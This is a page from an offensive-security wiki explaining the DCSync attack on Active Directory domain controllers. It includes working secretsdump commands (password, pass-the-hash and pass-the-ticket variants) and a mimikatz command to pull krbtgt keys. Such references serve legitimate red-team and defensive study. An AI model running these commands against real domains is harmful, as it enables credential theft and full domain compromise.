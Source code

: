 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1003.006
---
```


# DCSync

## Theory

DCSync is a technique that uses Windows Domain Controller's API to simulate the replication process from a remote domain controller. This attack can lead to the compromise of major credential material such as the Kerberos `krbtgt` keys used legitimately for tickets creation, but also for [tickets forging](../../abusing-kerberos/forged-tickets.md) by attackers. The consequences of this attack are similar to an [NTDS.dit dump and parsing](ntds.dit.md).

This attack requires domain admin privileges to succeed \(more specifically, it needs the following extended privileges: `DS-Replication-Get-Changes`  and `DS-Replication-Get-Changes-All`\). Members of the Administrators, Domain Admins, Enterprise Admins, and Domain Controllers groups have these privileges by default. In some cases, over-privileged accounts can be abused to [grant controlled objects the right to DCSync](../../abusing-aces/granting-genericall.md).

Long story short, DCSync is a `DsGetNCChanges` operation transported in an RPC request to the DRSUAPI \(Directory Replication Service API\) to replicate data \(including credentials\) from a domain controller.

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
On UNIX-like systems, this attack can be carried out with [Impacket](https://github.com/SecureAuthCorp/impacket/)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) which has the ability to run this attack on an elevated context obtained through [plaintext password stuffing](../stuffing.md), [pass-the-hash](../../abusing-lm-and-ntlm/pass-the-hash.md) or [pass-the-ticket](../../abusing-kerberos/pass-the-ticket.md).

```bash
# using a plaintext password
secretsdump -outputfile resultsfile 'DOMAIN'/'USER':'PASSWORD'@'DOMAINCONTROLLER'

# with Pass-the-Hash
secretsdump -outputfile resultsfile -hashes 'LMhash':'NThash' 'DOMAIN'/'USER'@'DOMAINCONTROLLER'

# with Pass-the-Ticket
secretsdump -k -outputfile resultsfile 'DOMAIN'/'USER'@'DOMAINCONTROLLER'
```
{% endtab %}

{% tab title="Windows" %}
On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) \(C\) can be used to operate a DCSync and recover the `krbtgt` keys for a [golden ticket attack](../../abusing-kerberos/forged-tickets.md#golden-ticket). For this attack to work, the following mimikatz command should run in an elevated context \(i.e. through [plaintext password stuffing](../stuffing.md#runas), [pass-the-hash](../../abusing-lm-and-ntlm/pass-the-hash.md) or [pass-the-ticket](../../abusing-kerberos/pass-the-ticket.md)\).

```bash
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://attack.stealthbits.com/privilege-escalation-using-mimikatz-dcsync" %}

